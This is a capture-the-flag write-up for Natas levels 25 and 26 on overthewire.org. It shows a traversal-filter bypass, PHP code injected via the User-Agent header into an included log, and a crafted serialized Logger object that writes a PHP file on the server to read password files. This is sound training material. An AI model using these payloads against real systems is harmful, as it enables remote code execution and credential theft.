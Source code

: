 ```yaml
---
layout: post
title: natas-writeup - lv25-lv26
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 25 to 2?."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 25 ##

Looking at the source given to us, we control the `lang` parameter (e.g. `?lang=de` will switch the language to German). We should use this somehow get hold of the `natas_webpass` file - which means finding a way to make the `strstr` call evaluate to false.

{% highlight php %}
    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
{% endhighlight %}

Bypassing the traversal is rather easy - if your string is `....//bar`, the `str_replace` expression will result in `../bar`. Just to prove this out, you can trigger an error with `?lang=....//.`. So what next? `logRequest` looks interesting:

{% highlight php %}
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
{% endhighlight %}

It looks like we could technically have access to our own logs. E.g. if your session cookie is `PHPSESSID=nulnhkq2j9fkq5379sv4pd5n34` you can access it via `?lang=....//logs/natas25_nulnhkq2j9fkq5379sv4pd5n34.log`:

```
[28.08.2020 08::57:18] PostmanRuntime/7.26.3 "Directory traversal attempt! fixing request."
```

That's cool, but it doesn't get us the password. And it doesn't seem we have any way to control `$message` either. *However*, there's this odd looking `$_SERVER['HTTP_USER_AGENT']`. The `User-Agent` header is something we fully control and doesn't seem to be sanitised in any way. This will get written as part of the log and, being loaded with `include`, essentially means it will execute it as a php file. Does it mean we have command injection? Setting `User-Agent` to `<?php echo implode(",",scandir("."));?>` and reading the log gives us:

```
[28.08.2020 09::00:17] .,..,.htaccess,.htpasswd,index-source.html,index.php,index.php.tmpl,language,logs "Directory traversal attempt! fixing request."
```

Yay! We can now search for that elusive `natas_webpass` file using `<?php echo exec("find / -name natas_webpass");?>` - which tells us it's under `/etc`. Now I got stuck for a while there because I didn't realise this was a directory, not a file `>_<`. A quick `ls` reveals the file we need, and `<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>` takes care of the rest.


## Level 26 ##

The code indicates that if the session cookie for the site contains a key called "drawing", it will end up calling `drawFromUserdata` which unserialises a user-controlled payload:

```php
if (array_key_exists("drawing", $_COOKIE)){
	$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

Setting a line from `(0,0)` to `(400,300)` creates a `drawing` cookie encoded as `"YTozOntpOjA7YTo0OntzOjI6IngxIjtzOjE6IjEiO3M6MjoieTEiO3M6MToiMiI7czoyOiJ4MiI7czozOiIxMDAiO3M6MjoieTIiO3M6MzoiMjAwIjt9aToxO2E6MDp7fWk6MjthOjQ6e3M6MjoieDEiO3M6MToiMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjQwMCI7czoyOiJ5MiI7czozOiIzMDAiO319"` which decodes to the below (spacing added manually):

```
a:3:{
i:0;
a:4:{
	s:2:\"x1\";s:1:\"1\";s:2:\"y1\";s:1:\"2\";s:2:\"x2\";s:3:\"100\";s:2:\"y2\";s:3:\"200\";
	}
i:1;
a:0:{}i:2;
a:4:{
	s:2:\"x1\";s:1:\"0\";s:2:\"y1\";s:1:\"0\";s:2:\"x2\";s:3:\"400\";s:2:\"y2\";s:3:\"300\";
	}
}
```

We can clearly see the 2 lines (one existing, one we added), complete with variable names. The data stored isn't a custom class but an array - the values of which are a string of length 2 (`s:2`) with value `x1`, followed by a string of length 1 (`s:1`) with value `1` etc...

In order to exploit the deserialisation, we need to use a class that is either present by default or defined in the scope. For this task we are given a `Logger` class that has the magic `__destruct` method:

```php
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }  
```

This gives us control of two things - (1) the name of a file on the server and (2) its content. This may not sound like much but a bit like with the previous level, this *should* give us the ability to write arbitrary PHP files on the server.

To start, we re-create the `Logger` object locally and define what the variables should be:

```php
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="<?php echo \"w00t\" ?>\n";
            $this->logFile = "img/" . $file . ".php";
        }
    }

$o = new Logger("qmmi2gi7i5621k5cehpjtgrh34");
echo base64_encode(serialize($o));
?>
```

Where `qmmi2gi7i5621k5cehpjtgrh34` is simply my `PHPSESSID` (not required, but let's not pollute/risk overwriting someone else's exploit). Accessing `http://natas26.natas.labs.overthewire.org/img/qmmi2gi7i5621k5cehpjtgrh34.php` shows this was successful!

All that's left to do is to change `exitMsg` to `<?php echo file_get_contents("/etc/natas_webpass/natas27"); ?>` - and done.
